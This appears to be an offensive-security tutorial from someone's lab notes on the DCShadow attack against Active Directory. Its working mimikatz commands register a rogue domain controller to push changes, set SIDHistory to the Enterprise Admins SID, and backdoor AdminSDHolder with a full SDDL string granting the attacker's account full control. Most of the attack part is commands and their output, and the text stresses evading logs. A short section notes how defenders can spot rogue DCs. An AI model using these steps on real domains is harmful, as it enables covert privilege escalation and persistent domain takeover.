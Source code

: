 # DCShadow Attack

![DCShadow%20Attack/Untitled.png](DCShadow%20Attack/Untitled.png)

# Explanation

⇒ DCShadow is late-stage kill chain attack that allows an attacker with **SYSTEM** privilege on a machine to register as a rogue domain controller and push changes to a domain. You either need Domain Admin or the following rights to push changes to the domain  :

- Domain Object :
    - DS-Replication-Manage-Topology
    - DS-Install-Replica
    - DS-Replication-Synchronize
- Site Object :
    - CreateChild
    - DeleteChild
- Computer Object ( Rogue DC ) :
    - WriteProperty
- Target Object :
    - WriteProperty

⇒ So to set these ACLs there's a powershell script named **[Set-DCShadowPermissions](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1)** which is used to modify AD objects to provide minimal permissions required for DCShadow.

⇒ The reason this attack is great for persistence is because there are no changelogs showed in the event viewer when we modify an object ACL which is great to hide our tracks 🙂 .

---

# Performing The Attack

---

## Prerequisites

- **SYSTEM** on a machine
- **Domain Admin** account
- **[mimikatz](https://github.com/gentilkiwi/mimikatz)**

---

## Modifying an object attribute

⇒ First lets get mimikatz fired up for the attack :

- [ SYSTEM ]

![DCShadow%20Attack/Untitled%201.png](DCShadow%20Attack/Untitled%201.png)

- [ Domain Administrator ]

![DCShadow%20Attack/Untitled%202.png](DCShadow%20Attack/Untitled%202.png)

⇒ So next we will be modifying an user's object description attribute :

- [System]

```powershell
lsadump::dcshadow /object:test1 /attribute:Description /value="DCShadow works eh"
```

![DCShadow%20Attack/Untitled%203.png](DCShadow%20Attack/Untitled%203.png)

- [Domain Admin]

```powershell
lsadump::dcshadow /push
```

![DCShadow%20Attack/Untitled%204.png](DCShadow%20Attack/Untitled%204.png)

- Checking the user description with **PowerView** to confirm we did modify user description attribute :

![DCShadow%20Attack/Untitled%205.png](DCShadow%20Attack/Untitled%205.png)

### ⇒ Defender's perspective :

- Taking a look at Event Viewer in vDC01 ( Domain Controller ) to check for change logs :

![DCShadow%20Attack/Untitled%206.png](DCShadow%20Attack/Untitled%206.png)

- The only changelog here is the one showed in the screenshot, but doesn't show any logs that says we modified test1 object attribute.
- Although we do notice the following GUID [ **`E3514235–4B06–11D1-AB04–00C04FC2DCD2`** ] in the above changelog which basically signifies that this machine is a Domain Controller :

![DCShadow%20Attack/Untitled%207.png](DCShadow%20Attack/Untitled%207.png)

- So as a defender if u see an machine being assigned the following **GUID** and is not in the **Domain Controller Organizational Unit**, it is more likely an rogue domain controller.

---

## Performing DCShadow with minimal permissions

⇒ So in this example we won't be needing domain admin to push changes to the domain. We will be giving the minimal permissions needed using **[Set-DCShadowPermissions.ps1](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) :**

- So we will be giving permissions to user **naqi** to modify **test1** object from machine **IIS01**

```powershell
Set-DCShadowPermissions -FakeDC IIS01 -SAMAccountName test1 -Username naqi -Verbose
```

![DCShadow%20Attack/Untitled%208.png](DCShadow%20Attack/Untitled%208.png)

⇒ Firing up **[mimikatz](https://github.com/gentilkiwi/mimikatz)** as **SYSTEM** and **Naqi** :

![DCShadow%20Attack/Untitled%209.png](DCShadow%20Attack/Untitled%209.png)

- [ **SYSTEM** ]

```powershell
lsadump::dcshadow /object:test1 /attribute:Description /value="Noice m8"
```

- [ **NAQI** ]

```powershell
lsadump::dcshadow /push
```

![DCShadow%20Attack/Untitled%2010.png](DCShadow%20Attack/Untitled%2010.png)

- Confirming the changes using PowerView :

![DCShadow%20Attack/Untitled%2011.png](DCShadow%20Attack/Untitled%2011.png)

---

## Setting SIDHistory

⇒  SID History enables access for another account to effectively be cloned to another this is useful to ensure users retain access when migrating to different domain . 

⇒ We can set **SIDHistory** of an user account to **Domain Admin / Enterprise Admin** group **SID** which would give the user the privileges of the group we set in the **SIDHistory**. 

⇒ The reason this is much better than just adding a user to the group directly is :

- **SIDHistory** works for SIDs in the same domain as it does across domains in the same forest
- It is more sneaky and not so easy to spot as compared to modifying **primaryGroupID** attribute.

⇒ We will be modifying the **SIDHistory** attribute for the user **test1** to **Enterprise Admin** group **SID** which is :

![DCShadow%20Attack/Untitled%2012.png](DCShadow%20Attack/Untitled%2012.png)

- Lets get root domain **SID** and add **`-519`** to it , which will be Enterprise Admins group **SID** :

![DCShadow%20Attack/Untitled%2013.png](DCShadow%20Attack/Untitled%2013.png)

Enterprise Admins : **`S-1-5-21-1710056623-765944083-1957563412-519`**

- Next lets fire up **mimikatz** :

![DCShadow%20Attack/Untitled%2014.png](DCShadow%20Attack/Untitled%2014.png)

- [ **SYSTEM** ]

```powershell
lsadump::dcshadow /object:test1 /attribute:SIDHistory /value:S-1-5-21-1710056623-765944083-1957563412-519
```

- [ **NAQI** ]

```powershell
lsadump::dcshadow /push
```

![DCShadow%20Attack/Untitled%2015.png](DCShadow%20Attack/Untitled%2015.png)

- Confirming the changes using **PowerView** :

![DCShadow%20Attack/Untitled%2016.png](DCShadow%20Attack/Untitled%2016.png)

---

## AdminSDHolder

⇒ **AdminSDHolder** is a container in AD that holds the Security Descriptor applied to members of protected groups.

- **AdminSDHolder** container can be abused by backdooring it by giving your user **GenericAll** privileges, which effectively makes that user a **Domain Admin.**

- First we will enumerate the current **ACLs** for **AdminSDHolder**

```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=endark,DC=local")).psbase.ObjectSecurity.sddl
```

![DCShadow%20Attack/Untitled%2017.png](DCShadow%20Attack/Untitled%2017.png)

**`(A;;CCDCLCSWRPWPLOCRSDRCWDWO;;;<USERSID>)`**

- Now lets grab our user **SID** :

![DCShadow%20Attack/Untitled%2018.png](DCShadow%20Attack/Untitled%2018.png)

**`(A;;CCDCLCSWRPWPLOCRSDRCWDWO;;;S-1-5-21-1710056623-765944083-1957563412-1118)`**

⇒ Next we will fire up **mimikatz** :

![DCShadow%20Attack/Untitled%2019.png](DCShadow%20Attack/Untitled%2019.png)

⇒ We will be modifying the **ntSecurityDescriptor** attribute to add our **ACL** to it :

- **[ SYSTEM ]**

```powershell
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=endark,DC=local /attribute:ntSecurityDescriptor /value:O:DAG:DAD:PAI(A;;LCRPLORC;;;AU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SY)(A;;CCDCLCSWRPWPLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPLOCRRCWDWO;;;DA)(A;;CCDCLCSWRPWPLOCRRCWDWO;;;S-1-5-21-1710056623-765944083-1957563412-519)(OA;;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;;WD)(OA;CI;RPWPCR;91e647de-d96f-4b70-9557-d63ff4f3ccd8;;PS)(OA;;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;;PS)(OA;;RP;037088f8-0ae1-11d2-b422-00a0c968f939;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;;RP;037088f8-0ae1-11d2-b422-00a0c968f939;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;;RP;4c164200-20c0-11d0-a768-00aa006e0529;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;;LCRPLORC;;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;;LCRPLORC;;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;;RP;4c164200-20c0-11d0-a768-00aa006e0529;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;;RP;46a9b11d-60ae-405a-b7e8-ff8a58d456d2;;S-1-5-32-560)(OA;;RPWP;6db69a1c-9422-11d1-aebd-0000f80367c1;;S-1-5-32-561)(OA;;RPWP;5805bc62-bdc9-4428-a5e2-856a0f4c185e;;S-1-5-32-561)(OA;;RPWP;bf967a7f-0de6-11d0-a285-00aa003049e2;;CA)**(A;;CCDCLCSWRPWPLOCRSDRCWDWO;;;S-1-5-21-1710056623-765944083-1957563412-1118)**
```

- [ **Domain Admin** ]

```powershell
lsadump::dcshadow /push
```

![DCShadow%20Attack/Untitled%2020.png](DCShadow%20Attack/Untitled%2020.png)

⇒ We see that the user **test1** has the following rights on **AdminSDHolder** container :

![DCShadow%20Attack/Untitled%2021.png](DCShadow%20Attack/Untitled%2021.png)

---

References : [https://adsecurity.org/?p=1772](https://adsecurity.org/?p=1772) , [https://www.youtube.com/watch?v=ZPsC_DkR_PI](https://www.youtube.com/watch?v=ZPsC_DkR_PI) , [https://adsecurity.org/?p=1906](https://adsecurity.org/?p=1906)